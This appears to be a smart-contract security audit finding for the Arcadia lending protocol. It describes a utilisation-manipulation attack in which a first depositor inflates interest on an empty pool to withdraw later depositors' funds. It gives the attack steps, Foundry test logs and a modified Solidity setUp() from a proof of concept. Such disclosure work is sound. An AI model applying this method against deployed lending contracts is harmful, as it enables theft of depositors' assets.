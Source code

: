 The attacker can set this up when the initial lending pool is empty. Then, they can steal assets from subsequent depositors due to the huge amount of interest collected from their small initial deposit

Let me sum up the attack in the POC:

1. deposit 100 assets into tranche
2. Use ERC20 Transfer to transfer `1e18` assets into the `LendingPool`
3. Borrow the `1e18` assets
4. Victim deposits into tranche
5. Attacker withdraws the victims funds which is greater than the 100 assets the attacker initially deposited

Here is the output from the console.logs:

```bash
Running 1 test for test/scenario/BorrowAndRepay.scenario.t.sol:BorrowAndRepay_Scenario_Test
[PASS] testScenario_Poc() (gas: 799155)
Logs:
  100 initial pool balance. This is also the amount deposited into tranche
  warp 2 minutes into future
  mint was used rather than deposit to ensure no rounding error. This a UTILISATION manipulation attack not a share inflation attack
  22 shares were burned in exchange for 100000 assets. Users.LiquidityProvider only deposited 100 asset in the tranche but withdrew 100000 assets!

```

This is the edited version of `setUp()` in `_scenario.t.sol`

```solidity
function setUp() public virtual override(Fuzz_Lending_Test) {
        Fuzz_Lending_Test.setUp();
        deployArcadiaLendingWithAccounts();

        vm.prank(users.creatorAddress);
        pool.addTranche(address(tranche), 50);

        // Deposit funds in the pool.
        deal(address(mockERC20.stable1), users.liquidityProvider, type(uint128).max, true);

        vm.startPrank(users.liquidityProvider);
        mockERC20.stable1.approve(address(pool), 100);
        //only 1 asset was minted to the liquidity provider
        tranche.mint(100, users.liquidityProvider);
        vm.stopPrank();

        vm.startPrank(users.creatorAddress);
        pool.setAccountVersion(1, true);
        pool.setInterestParameters(
            Constants.interestRate, Constants.interestRate, Constants.interestRate, Constants.utilisationThreshold
        );
        vm.stopPrank();

        vm.prank(users.accountOwner);
        proxyAccount.openMarginAccount(address(pool));
    }
```
